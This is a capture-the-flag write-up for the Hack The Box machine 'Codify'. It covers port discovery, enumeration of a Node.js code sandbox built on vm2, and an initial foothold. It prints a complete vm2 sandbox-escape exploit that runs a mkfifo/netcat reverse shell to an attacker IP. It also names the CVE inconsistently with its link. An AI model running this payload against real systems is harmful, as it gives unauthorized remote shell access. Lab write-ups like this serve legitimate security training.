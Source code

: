 We find three ports open 22 (SSH), 80 (HTTP) and 3000 (Node.js). We are being redirected to `codify.htb` which I added to the `/etc/hosts`.

```
sudo echo "10.10.11.239 codify.htb" | sudo tee -a /etc/hosts
```

## Enumeration

The website is a service to test Node.js code in a sandbox environment.

![Codify Website](/images/HTB-Codify/codify-website.png)

Clicking `Try it now` brings up an editor where code can be run.

![Codify Sanbox Environment](/images/HTB-Codify/code-run.png)

The platform uses a module whitelist for security purposes.

![Codify Module Whitelist](/images/HTB-Codify/codify-limitations.png)

In the `About Us` section we learn that the [vm2](https://github.com/patriksimek/vm2/releases/tag/3.9.16) library is used.

![Codify About Section](/images/HTB-Codify/codify-about.png)

## Initial Foothold

Researching for vm2 vulnerabilities, we find [CVE-2023-3214](https://nvd.nist.gov/vuln/detail/CVE-2023-32314) and a PoC can be found [here](https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac). The exploit allows us to escape the sandbox and obtain remote code execution (RCE).

After multiple failures, the search for a reverse shell leads to [this](https://www.youtube.com/watch?v=_q_ZCy-hEqg&ab_channel=0xdf) old video of 0xdf where he explains `mkfifo / nc Reverse Shell`. Some mkfifo reverse shells are available [here](https://www.oreilly.com/library/view/hands-on-red-team/9781788995238/b76e6441-5999-45e4-949e-bd332cb21cce.xhtml) and the first one ends up working. Below is the complete code.

> Don't forget to change the IP address and port number accordingly.

```Javascript
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("rm -f /tmp/a; mkfifo /tmp/a; nc 10.10.14.13 9001 0</tmp/a | /bin/sh >/tmp/a 2>&1; rm /tmp/a ").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code));
```
